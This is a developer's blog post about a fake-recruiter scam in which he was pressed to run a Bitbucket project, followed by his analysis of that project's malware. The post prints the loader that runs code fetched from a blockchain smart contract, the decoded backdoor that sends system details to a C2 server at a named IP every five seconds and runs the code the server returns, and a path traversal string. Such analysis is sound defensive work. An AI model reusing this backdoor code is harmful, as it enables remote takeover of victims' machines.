





<h1 class="page-title">
Brave new world of scammers targetting developers
</h1>

<h2 class="page-subtitle">
  Scammers are getting smarter and bolder.
</h2>

_Author: [Toufiqur Rahaman Chowdhury](https://alien45.github.io/cv)_ • Published: 2026-01-18 • [← Back to Journal Home](../)

---

In my [previous article](../2025-07-25-targeted-dev-attack/), I went deep into the rabbithole of scammers targetting developers pretending to be employers and running a supply chain attack using malicious NPM packages. Since then I have encountered two more attempts by scammers targetting me, each of them with new tactic and bolder approaches.

In this article, I will describe how narrowly avoided a major security breach and once again put my investigative hat on, explain the clever new tactics used by the scammer and dig into the code. This is as much as a learning experience for me as it is to document and warn others about it. While the article is very technical, reading about the details of the events may also be helpful for non-technical person to learn and potentially avoid online hacking attempts and overall be more cautious dealing with strangers online.

Please note that while I have been repeatedly targetted, I was cautious and lucky enough to have sniffed the red flags in time to avoid being hacked. However, there were LinkedIn posts by other who were not as lucky.

## Table of Contents

- [Timeline of Events](#timeline-of-events)
  - [December 16, 2025](#december-16-2025): Initial contact & scheduling a meeting
  - [December 17, 2025](#december-17-2025): Live attempt to hack my computer
  - [December 18, 2025](#december-18-2025): Investigation of the code
- [The Initial Discovery: A Backdoor in Plain Sight](#the-initial-discovery-a-backdoor-in-plain-sight)
- [The Payload Delivery System: A Covert Smart Contract](#the-payload-delivery-system-a-covert-smart-contract)
- [Decoding the `getMemo()` Payload](#decoding-the-getmemo-payload)
  - [The Decoded Backdoor Payload](#the-decoded-backdoor-payload)
  - [Other Malicious Code](#other-malicious-code)
- [Conclusion](#conclusion)
- [About the Author](#about-the-author)

## Timeline of Events

### December 16, 2025

I received a new connection request from an account named Juan Ibañez. As usual I accepted the connection and sent an intro message to the person asking how did they come across my profile.

<figure>
  
  <figcaption>Figure 1: Intro message I sent to the fake employer</figcaption>
</figure>

In reply, Juan mentioned he's recruiting for a Full Stack Developer position at a betting company.

<figure>
  
  <figcaption>Figure 1: First message from the fake employer, Juan Ibañez</figcaption>
</figure>

I replied that I am not open to working in the gambling industry. I figured that would be the end of the conversation.

However, Juan mentioned there are other open opportunities and asked me to schedule the **initial meeting** using a calendy.com link.

<figure>
  
  <figcaption>Figure 3: Linkedin message from fake employer with Calendy.com invite link. </figcaption>
</figure>
PS: The logo in the Calendy.com page has since been changed, which indicates they're possibly still using it but pretending to be working for another company called Nubion.

I booked a slot for the next day for the "initial meeting". However, immediately seeing a different name (Austin Pugh instead of Juan Ibañez), I felt it's a bit odd. While I didn't immediately flag it as suspicious, I had a feeling I needed to be cautious going forward.

<figure>
  
  <figcaption>Figure 3: Email with calender event and Google Meet invitation link.</figcaption>
</figure>

### December 17, 2025

I joined the meeting on time and had my camera and audio on. Couple of minutes later Austin Pugh joined with camera off initially. But then he turned on his camera for a couple of minutes or so during the meeting. I did previously have interviews with legit employers who didn't have their camera on. So, I didn't think of it as a big deal but mentally added it as another reason to be cautious.

I was asked to describe my background and experiences; and was asked bunch of short questions like "How many years of experience do you have with XYZ tech?" or "Can you tell me about your experience with XYX tech". These sounded like a very typical initial screening call by recruiters.

However, as we spoke I noticed a sublte impatience in Austin. When he asked me about one of the skills (I don't remember exactly what it was now) that I didn't have prior experience with. He skipped over it as if I had the skill even though he said that's one of the core technologies used by the company. He seemed very eager to move forward get over with the questions. His attitude caused my brain to add this as the third signal to be even more cautious that I felt before.

Afer that Austin told me he wanted to walk me through the project that I will be working on. He shared his screen where he opened a [BitBucket repo](https://bitbucket.org/beejern-space/beejern/src/main/) and then asked me to clone the repo and run it on my local machine.

<figure>
  
  <figcaption>Figure 3: Screenshot of the malicious BitBucket.org repository.</figcaption>
</figure>

This immediately triggered my spidey-sense. I told Austin that this is not within the scope of today'ss meeting. I will clone the repo later. He insisted me to clone and run the project while on the call.

This confirmed all my suspicions. I no longer had any doubt that this was an attempt to compromise my computer. Recruiters don't have the technical knowledge understand code, let alone "walk through the code". I immediately told him "You are a scam. So, I am going to drop the call." and then dropped the call. Austin or Juan never contacted me after that nor did they try to defend their position.

### December 18, 2025

After dropping the call I immediately downloaded the project repo as a zip file to investigate further. Upon investigation with the help of AI, I discovered a completely new method of incorporating remote code execution (RCE) in really clever way by storing the RCE script in a smart contract on the BNBChain. In the next chapter, I will discuss about in detail what I did to look for suspicious code and how discovered this clever method of attack.

## The Initial Discovery: A Backdoor in Plain Sight

Since, there were no `.vscode/tasks.json` file and from my [previous article](../2025-07-25-targeted-dev-attack/) I knew two things:

1. The backend/NodeJS side is where to look for malicious code first.

2. It's relatively safe to open the project in VSCode (because no `.vscode/tasks.json`) locally even though may not be not safe to run it. However, I still opened it in restricted mode by clicking on `No, I don't trust the authors`.

<figure>
  
  <figcaption>Figure 6: VSCode prompt whether to trust to project or open in restricted mode.</figcaption>
</figure>

<figure>
  
  <figcaption>Figure 7: VSCode restricted mode vs trusted mode.</figcaption>
</figure>

After scanning through the backend code, the first and most critical vulnerability I found was in `/backend/routes/routes.js`. At first glance, it looked like a standard Express.js routes file. However, two functions, `ContentAsWeb` and an anonymous async function that called it, immediately stood out.

```javascript
function ContentAsWeb(payload) {
  if (!payload) {
    // ...
    return;
  }
  try {
    const ensureWeb = new Function("require", payload);
    ensureWeb(require);
  } catch (err) {
    // ...
  }
}
```

The use of `new Function()` is a massive red flag. It takes a string and executes it as JavaScript code. In this context, it was being used to execute a `payload` with access to the `require` function, meaning the executed code could import any Node.js module (`fs`, `child_process`, etc.) and gain full control over the server.

But where was this `payload` coming from?

### The Payload Delivery System: A Covert Smart Contract

The payload wasn't hardcoded. Instead, it was fetched from a smart contract on the Binance Smart Chain (BSC). The configuration in `/backend/config.js` pointed to the contract address: `0x9C4964C3601909d0eeE970a8a9cAE4836Bdf27EF`.

The anonymous function in `routes.js` was responsible for fetching this payload:

```javascript
(async () => {
  // ...
  try {
    // NFT_TX_IDS was an array:
    const nftDataPromises = NFT_TX_IDS.map((txId) => contract.getMemo(txId));
    const nftDataResults = await Promise.all(nftDataPromises);
    const nftContent = nftDataResults.join("");
    ContentAsWeb(nftContent); // Execute the fetched code
  } catch (err) {
    // ...
  }
})();
```

This code calls a function named `getMemo()` on the smart contract with IDs `2` and `3`, joins the results, and executes them. This is a clever way to hide a malicious payload. It's not in the codebase itself but is dynamically loaded from the blockchain, making it harder to detect with static analysis.

### Decoding the `getMemo()` Payload

When I checked the contract on BscScan, it was **unverified**. The creator had deliberately hidden the source code. This is the biggest red flag for any smart contract.

To see what `getMemo()` returned without running the malicious app, I used a simple HTML file with `ethers.js` to call the function directly from my browser.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Contract Check</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/ethers/6.7.0/ethers.umd.min.js"></script>
  </head>
  <body>
    <h1>Contract Output</h1>
    <pre id="output">Loading...</pre>
    <script>
      async function checkContract() {
        const contractAddress = "0x9C4964C3601909d0eeE970a8a9cAE4836Bdf27EF";
        const bscRpcUrl = "https://bsc-dataseed1.binance.org";
        const contractAbi = [
          "function getMemo(uint256 transactionId) view returns (string)",
        ];
        const provider = new ethers.JsonRpcProvider(bscRpcUrl);
        const contract = new ethers.Contract(
          contractAddress,
          contractAbi,
          provider,
        );

        const memo2 = await contract.getMemo(2);
        const memo3 = await contract.getMemo(3);
        const combined = memo2 + memo3;

        document.getElementById("output").innerText = combined;
      }
      checkContract();
    </script>
  </body>
</html>
```

This revealed the true payload: a minified script that establishes a persistent Command & Control (C2) channel.

### The Decoded Backdoor Payload

Here is the formatted payload:

```javascript
const axios = require("axios");
const os = require("os");
let instanceId = 0;

// The RCE function
function errorFunction(e) {
  try {
    return new Function("require", e)(require);
  } catch (e) {}
}

// Collects and sends system info to the attacker
async function checkServer() {
  try {
    const sysInfo = {
      hostname: os.hostname(),
      macs: Object.values(os.networkInterfaces())
        .flat()
        .filter(Boolean)
        .map((e) => e.mac),
      os: `${os.type()} ${os.release()} (${os.platform()})`,
    };

    // Pings the attacker's C2 server
    const t = await axios.get("http://87.236.177.9:3000/api/errorMessage", {
      params: { sysInfo, exceptionId: "env19475", instanceId },
    });

    // If the server responds with a command, execute it
    if ("error" === t.data.status) {
      errorFunction(t.data.message || "Unknown error");
    } else if (t.data.instanceId) {
      instanceId = t.data.instanceId;
    }
  } catch (e) {}
}

// Run immediately and then every 5 seconds
try {
  checkServer();
  setInterval(checkServer, 5000);
} catch (e) {}
```

This script does three things:

1.  **Exfiltrates Data**: It collects the user's hostname, MAC addresses, and OS details.
2.  **Establishes C2 Channel**: It sends this data to an attacker-controlled server (`87.236.177.9`) every 5 seconds.
3.  **Executes Remote Commands**: It listens for a response. If the response contains a `message`, it executes that message as code, giving the attacker full remote control.

### Other Malicious Code

The RCE was the main payload, but the project was littered with other vulnerabilities that indicate malicious intent.

- **Broken JWT Authentication**: The `verifyJWT` function correctly used `jwt.verify()` but then completely ignored the result. It proceeded to use `jwt.decode()` to get the user payload. `decode()` does **not** verify the token's signature, meaning an attacker could forge a token with any data they want (e.g., `{"role": "cpadmin"}`) to gain unauthorized access.

- **Path Traversal**: An endpoint, `getImage`, was vulnerable to path traversal. An attacker could provide a path like `../../../../etc/passwd` to read sensitive files from anywhere on the server.

- **Deprecated Crypto Packages**: The project used the `crypto` package from npm, which has been deprecated for years in favor of Node.js's built-in `crypto` module. It also used `ethereumjs-tx`, which is deprecated in favor of `@ethereumjs/tx`. Using outdated, unmaintained crypto libraries is a massive security risk and a clear sign that the author is not a legitimate developer.

## How to avoid

## Conclusion

This project was not just poorly written; it was a deliberately crafted weapon. The combination of a remote code execution backdoor, a covert payload delivery system using an unverified smart contract, and multiple other critical vulnerabilities confirms this was an attempt to compromise my system. This incident is a stark reminder: **never trust and run code from an unknown source without a thorough security audit.**

What's really clever about this is that putting me on the spot during the call to clone the repo without giving me a chance to look through the code for any potential malicious intent. If I had not previously been attacked, as I mentioned in my [previous article](../2025-07-25-targeted-dev-attack/), I might have done it without realizing that this was an active attempt at hacking my computer and potentially doing a lot of harm not only to me but also to any of current and/or future employers. The attackers are not only becoming clever at their tactics, but also becoming bolder as to even dare show their face to make everything sound as legit as possible.

## About the Author

Toufiqur Rahaman Chowdhury is a full-stack software developer with over 8 years of experience building scalable web applications. He’s worked across frontend, backend, and blockchain systems.

🔗 [← Back to Journal Home](../)
• [CV](https://alien45.github.io/cv)
• [LinkedIn](https://www.linkedin.com/in/toufiq/)
• [GitHub](https://github.com/alien45)
• [Contact / Hire Me](https://alien45.github.io/cv/Toufiqur_Chowdhury_CV.pdf)

<link rel="stylesheet" href="../assets/style.css" />
<script type="text/javascript" src="../assets/script.js"></script>
